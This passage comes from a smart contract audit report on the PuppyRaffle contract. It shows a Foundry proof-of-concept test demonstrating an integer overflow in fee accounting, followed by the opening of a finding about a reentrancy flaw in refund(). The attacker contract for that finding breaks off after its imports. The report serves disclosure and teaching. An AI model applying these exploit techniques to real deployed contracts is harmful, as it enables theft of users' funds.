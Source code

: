 ```
    // expectedPrizeAmount = 18,600,000,000,000,000,000
    // type(uint64).max = 18,446,744,073,709,551,615
    uint256 expectedPrizeAmount = ((entranceFee * 93) * 20) / 100;

    console.log("Expected price amount: %s ", expectedPrizeAmount);

    puppyRaffle.selectWinner();
    console.log("feeAddress balance: %s", address(feeAddress).balance);
    console.log("Entrance fee: %s", entranceFee);
    vm.expectRevert("PuppyRaffle: There are currently players active!");
    puppyRaffle.withdrawFees();
}

modifier manyPlayersEntered() {
    uint256 totalPlayers = 93;
    address[] memory players = new address[](totalPlayers);
    for (uint256 i; i < totalPlayers; i++) {
        players[i] = address(i * 3000);
    }
    puppyRaffle.enterRaffle{value: entranceFee * totalPlayers}(players);
    _;
}
```
## Impact
High. It is easy to calculate, even manually which amount combination of number of players and entrance fee will result in the overflow.
## Tools Used
Manual check.
## Recommendations
- Automatic over- and underflow checks were introduced in [Solidity 0.8.0](https://docs.soliditylang.org/en/latest/080-breaking-changes.html). Use the latest Solidity version. This will require a review of project's dependences as not all of them work with Solidity >= 0.8.0.
- Use safe math libraries like the one from OpenZeppelin [Math](https://docs.openzeppelin.com/contracts/2.x/api/math).
## <a id='H-02'></a>H-02. refund() is prone to reentrancy attack            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/07399f4d02520a2abf6f462c024842e495ca82e4/src/PuppyRaffle.sol#L101

## Summary
A malicious smart contract can call `refund()` and drain all the funds from `PuppyRaffle`.
## Vulnerability Details
It's possible to reenter `refund()` with the following attacker's smart contract: 
```
//SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

import "./PuppyRaffle.sol";

import {ERC721} from "@openzeppelin/contracts/token/ERC721/ERC721.sol";
import {Ownable} from "@openzeppelin/contracts/access/Ownable.sol";
import "forge-std/console.sol";

// I'm attack contract. I like ETH and don't like dogs.
```